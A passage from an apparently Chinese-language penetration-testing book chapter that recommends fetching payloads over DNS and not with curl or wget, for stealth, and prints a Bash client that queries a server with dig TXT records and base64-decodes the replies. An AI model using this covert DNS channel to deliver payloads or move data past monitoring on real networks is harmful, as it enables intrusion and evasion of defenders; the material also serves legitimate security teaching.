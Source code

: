 如果你想更加隐蔽，应该避免使用 **curl** 或 **wget** 来获取有效载荷，而是使用 DNS。以下示例包含了用于通过 DNS 传输数据的服务器端和客户端代码。你可以在 Bash 脚本中实现客户端代码，替换任何使用 **curl** 或 **wget** 的地方。

服务器端代码可以在本章的 GitHub 仓库中找到，文件名为 **ch14_dns_server.py**。客户端代码可以在本章的 GitHub 仓库中找到，文件名为 **ch14_dns_client.sh**：

```
 #!/usr/bin/env bash
SERVER_IP="10.2.10.99" #Replace with your actual server IP
DOMAIN="example.com"
function retrieve_data() {
    local key="$1"
    echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"
    local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")
    if [ -n "$result" ]; then
        # Remove quotes and decode
        local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)
        if [ $? -eq 0 ]; then
            echo "Retrieved data for '$key': $decoded"
        else
            echo "Error decoding data for '$key'. Raw data: $result"
        fi
    else
        echo "No data found for '$key'"
    fi
    echo "-------------------"
}
# Example usage
retrieve_data "weather"
retrieve_data "news"
retrieve_data "quote"
retrieve_data "nonexistent"
```

客户端的输出可以在以下图中找到：

![图 14.2 – 显示了 DNS 客户端的输出](img/B22229_14_02.jpg)
